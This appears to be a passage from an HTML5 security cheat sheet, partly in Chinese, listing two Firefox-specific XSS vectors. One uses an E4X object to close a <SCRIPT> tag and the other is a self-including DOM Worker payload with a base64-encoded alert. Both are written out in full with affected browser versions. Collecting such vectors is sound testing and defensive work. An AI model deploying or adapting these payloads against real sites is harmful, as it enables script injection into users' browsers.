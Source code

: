*   xss

*   javascript
*   e4x
*   script
*   parser
*   regex

*   [`developer.mozilla.org/en/E4X`](https://developer.mozilla.org/en/E4X)

*   [`bugzilla.mozilla.org/show_bug.cgi?id=564706`](https://bugzilla.mozilla.org/show_bug.cgi?id=564706)

reporter：.mario

### E4X used to close an opening <SCRIPT> tag and {} evaluation#75test

In this example an E4X object is being used to close a half-open <SCRIPT> tag and evaluate code in the global scope afterwards via the E4X curly bracket delimiters. This technique will not work anymore as soon Firefox uses the already integrated HTML5 parser (html5.enable=true)

```
<script<{alert(1)}/></script </> 
```

*   firefox 1.5
*   firefox 3.6.28

*   xss

*   javascript
*   e4x
*   script
*   parser
*   regex

*   [`developer.mozilla.org/en/E4X`](https://developer.mozilla.org/en/E4X)

*   [`bugzilla.mozilla.org/show_bug.cgi?id=564706`](https://bugzilla.mozilla.org/show_bug.cgi?id=564706)

reporter：.mario, Gareth

## DOM 属性与方法的攻击向量

### 通过 DOM Worker 包含上下文本身进行 XSS#4test

这是一个 self-including 的例子,通过 DOM worker 包含上下文的方式触发事件引起脚本执行.

```
0?<script>Worker("#").onmessage=function(_)eval(_.data)</script> :postMessage(importScripts('data:;base64,cG9zdE1lc3NhZ2UoJ2FsZXJ0KDEpJyk')) 
```

*   firefox 3.5
*   firefox 15.0
